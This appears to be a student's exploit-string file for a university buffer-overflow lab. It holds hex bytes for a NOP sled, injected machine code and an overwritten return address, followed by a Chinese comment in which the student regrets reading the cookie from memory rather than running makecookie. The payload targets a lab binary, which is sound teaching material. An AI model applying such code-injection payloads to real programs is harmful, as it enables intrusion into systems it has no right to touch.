90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90
b8 2f 3f 08 20
8d 6c 24 28
68 3a 8e 04 08
c3
48 34 68 55

我犯下的严重错误：
level2的<bang>函数汇编代码中可以看出cookie存储的位置
我在本level中一直试图使用该地址来获取cookie值
先不说我有没有求证cookie存放的位置有没有改变
当确定了username，我可以使用./makecookie username来直接获得cookie值，而不需要通过地址
因此浪费了很多时间 我是傻逼
*/
```

